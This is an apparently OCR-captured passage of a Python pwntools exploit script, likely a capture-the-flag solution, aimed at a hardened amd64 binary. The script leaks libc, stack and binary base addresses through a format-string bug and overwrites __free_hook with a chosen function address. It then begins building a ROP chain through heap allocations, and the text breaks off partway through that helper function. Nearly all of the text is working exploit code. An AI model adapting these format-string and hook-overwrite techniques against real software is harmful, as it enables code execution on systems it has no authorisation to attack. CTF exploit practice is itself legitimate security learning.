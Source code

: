 ```py
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

paus()

# Format string vuln to leak addresses
formatstr = "%25$p%16$p%17$p "
io.recvuntil("Format: ")
print(formatstr)
io.sendline(formatstr)

s = io.recvuntil("\n").decode()[:-1]
s = s.split('0x')
s[3] = s[3].split(' ')[0]

libcBase = int(s[1], 16) - 0x21b97
stackLeak = int(s[2], 16)
binBase = int(s[3], 16) - 0x11b3

symKill = binBase + 0x000010b4
freeHook = libcBase + 0x3ed8e8
returnAddr = stackLeak + 0x8

io.success("libc base addr: " + hex(libcBase))
io.success("rbp stack leak: " + hex(stackLeak))
io.success("bin base addr: " + hex(binBase))



# Write symKill to __free_hook
io.recvuntil("Pointer: ")
io.sendline(str(freeHook))
io.recvuntil("Content: ")
io.send(p64(symKill))



# Create heap chunk 0
io.recvuntil('exit\n')
io.send('1')
io.recvuntil('Size: ')
io.send('8')
io.recvuntil("Data: ")
io.send('A')



# function for writing a rop chain by calling free, jumping to symKill
def add_rop(qword, rop_offset):
    io.recvuntil('exit\n')
    io.send('1')
    io.recvuntil('Size: ')
    io.send('8')
    io.recvuntil("Data: ")
    io.send('A')
    io.recvuntil('exit\n')
    io.send('2')
```